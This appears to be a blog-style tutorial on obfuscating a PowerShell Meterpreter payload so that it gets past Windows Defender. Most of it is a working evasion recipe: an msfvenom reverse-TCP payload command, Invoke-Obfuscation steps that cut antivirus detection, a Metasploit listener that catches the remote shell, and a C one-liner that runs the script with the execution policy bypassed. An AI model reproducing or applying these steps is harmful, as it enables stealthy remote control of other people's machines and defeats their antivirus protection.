









<!--
Text can be **bold**, _italic_, ~~strikethrough~~ or `keyword`.


[Link to another page](another-page).

There should be whitespace between paragraphs.

There should be whitespace between paragraphs. We recommend including a README, or a file with information about your project.
-->

# [](#header-1) What is Obfuscation ?

In software development, obfuscation is the act of creating source or machine code that is difficult for humans or computers to understand. Like obfuscation in natural language, it may use needlessly roundabout expressions to compose statements. Programmers may deliberately obfuscate code to conceal its purpose (security through obscurity) or its logic or implicit values embedded in it, primarily, in order to prevent tampering, deter reverse engineering, or even to create a puzzle or recreational challenge for someone reading the source code. This can be done manually or by using an automated tool, the latter being the preferred technique in industry

# [](#header-2) Why could it Bypass Windows Defender ?

Windows defender is antivirus provided by windows to avoid infection from malware and trojan. Windows Defender collects trillions of data every day. It uses these data to take advantage and learn treat pattern to understand behaviour of malware.
The goal from obfuscation is to render the code hard to understand for the antivirus and make it upset. So Windows Defender won't able to classified the program as trojan and skip all detected potential treat for our malware.



# [](#header-3) How to obfuscate our program ?

It exists severals methods and it depends by the programmation language used. As you known, each language has its syntax and its rules. Then compiled and interpreted language have different process to render it executable by machine.
In this example I will play with powershell syntax rules to obfuscate my script
and take advantage to deficient detection to bypass antivirus. 
Let's take an example with script in powershell. I will use basic common malware detected by all antivirus and make it undetectable by improvement.

# [](#header-4) Methodology & Results

To be honnest, there is not universal methodology but I build my own to make efficient test and trying to improve it to check difference at each level of obfuscation.

First of all, let's create basic meterpreter in powershell.
```console
msfvenom -p windows/x64/meterpreter/reverse_tcp lport=4444 lhost=192.168.1.66 -f psh -o basic_meterpreter.ps1
```
Now let's check the bad score this sample malware has on [https://virustotal.com](https://virustotal.com)




As you can see our malware has very bad score. It is easily detectable by common antivirus.

I discovered a nice repository specially consacred to obfuscate powershell script. In my case I will use the Invoke-Obfuscation module that is provide different methods that we are going to test: [https://github.com/danielbohannon/Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)

**Important: you should disable your antivirus when you use it**

```console
git clone https://github.com/danielbohannon/Invoke-Obfuscation
cd Invoke-Obfuscation
Import-Module .\Invoke-Obfuscation.psd1
cd ..
Invoke-Obfuscation
```




Let's set SCRIPTPATH variable and point it to your meterpreter script.

```console
SET SCRIPTPATH path/to/my/basic_meterpreter.ps1
```
Let's start by compress our code and hold it ine one line.
We choose Compress option. 
Then it generates a new script. Just copy it and save it. Now let's test if its has consequences on detection score



More or less, it's almost the same score. It's not really efficient.

Now it exist a basic method to obfuscate that is the concatenation of string. In powershell scripting it's usually used to bypass policy restriction but let's try if it has influence on the detection score.

I just choose the STRING option and apply the concatenation method on my compressed oneline script.



TADAAAAM, it reduces considerably the detection by dividing the previous score by ~2. At this level, we can see it evades sandbox from antivirus.

Okay but now let's use the TOKEN option that is use method to obfuscate part of our code like variable, type, comment, etc...
As i'm greedy man, I obviously choose to obfuscate all differents syntax we can find my powershell script.
I just choose option ALL and apply it to my compressed_concatenation.ps1 script. Let's check the score



NIIIICE, it reducing it considerably by two. Ok now at this stage I tried to execute it on my machine to see what beheviour has Windows Defender. I just re-enabled all settings from defender to make it working.



Let's just right-click on my script and launch quick analyzing from Windows defender



okay let me translate, french is like obfuscation sometimes... it says.. NO TREAT DETECTED ! Let's launch a listener server from metasploit to test it.

```console
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost 0.0.0.0; set exitfunc thread; set lport 4444; set ExitOnSession false; exploit -j"
```

Now, execute our script to see what hapen.



A session is etablished without killing session by Windows Defender !
Our script has actually evasion mode !

# Potential improvement

The problem with powershell script is that some machines have execution policy restriction. That means, it need the authorization of the system or the user to accept to execute our script. Typically we can run for example an innocent C program that is call our powerscript with some options that avoid restriction.

```c
system("powershell -ExecutionPolicy Bypass -F obfuscation_bypass_defender.ps1")
```

It's one method among severals, you can take a look this if you are interested: [https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/](https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/)

# Proof of concept


# References

* [https://en.wikipedia.org/wiki/Obfuscation_(software)#:~:text=In%20software%20development%2C%20obfuscation%20is,roundabout%20expressions%20to%20compose%20statements.](https://en.wikipedia.org/wiki/Obfuscation_(software)#:~:text=In%20software%20development%2C%20obfuscation%20is,roundabout%20expressions%20to%20compose%20statements.)

* [https://www.danielbohannon.com/blog-1/2017/12/2/the-invoke-obfuscation-usage-guide-part-2](https://www.danielbohannon.com/blog-1/2017/12/2/the-invoke-obfuscation-usage-guide-part-2)

* [https://www.youtube.com/watch?v=6xexyQwG7SY&t=770s&ab_channel=HackerSploit](https://www.youtube.com/watch?v=6xexyQwG7SY&t=770s&ab_channel=HackerSploit)